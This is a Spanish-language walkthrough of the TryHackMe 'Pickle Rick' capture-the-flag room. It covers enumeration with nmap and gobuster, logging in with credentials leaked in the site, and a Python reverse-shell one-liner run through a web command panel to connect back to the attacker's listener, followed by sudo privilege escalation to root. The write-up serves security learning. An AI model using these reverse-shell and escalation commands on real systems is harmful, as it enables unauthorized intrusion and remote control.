# Pickle Rick

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## 1. Información Inicial
- **Objetivo:** Obtener las tres recetas mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `wget`, `hydra`, `reverse shell`, `gtfobins`, `crackstation`, `netcat`, `find`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV -T5 10.10.29.248
```



Podemos ver como están abiertos los puertos 22 y 80. Por SSH no conseguimos gran cosa por lo que observaremos el sitio web



Aparentemente en el sitio web no encontramos nada relevante, pero teniendo como costumbre mirar el código fuente y las cookies cada vez que revisamos una web, encontramos un comentario con un nombre de usuario: `R1ckRul3s`



Seguimos con la enumeración de directorios con `gobuster` en la que tenemos varios ficheros y directorios a los que podemos acceder, en especial `robots.txt`.

```bash 
gobuster dir -u http://10.10.29.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```


## 3. Explotación

Obtenemos una cadena sospechosa, que posiblemente pueda ser la contraseña del usuario encontrado anteriormente:
`R1ckRul3s:Wubbalubbadubdub`



Si accedemos al fichero /login.php, encontramos un inicio de sesión donde probar las credenciales, las cuáles son correctas.



Nos redirige a un cuadro de texto en el que podemos ingresar comandos. Primero listamos el directorio actual y con `cat` obtendremos la primmera receta.



```bash 
cat Sup3rS3cretPickl3Ingred.txt
```



Otra opción es tratar de ingresar una `reverse shell` en el cuadro de comandos para obtener una shell en nuestra máquina local.

Ponemos netcat a la escucha por el puerto 4444.

```bash 
nc -lvnp 4444
```
En el cuadro de comandos, tras intentar muchas opciones, conseguimos ejecutar una reverse shell de python que nos devuelve una conexión en nuestra máquina local.

```bash 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.29.132",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```





Entramos en el directorio personal de rick y mostraremos el contenido del fichero que contiene el segundo ingrediente.

```bash 
cat 'second ingredients'
```




## 4. Postexplotación

Es hora de escalar privilegios y el primer comando que se debe de ejecutar a la hora de elevar privilegios es:

```bash 
sudo -l
```



Los resultados destacan que el usuario actual tiene permisos completos en el sistema, por lo que podemos acceder al usuario root fácilmente.

```bash 
sudo bash -i
```

Finalmente conseguimos acceso al usuario root y mostrar el tercer ingrediente.



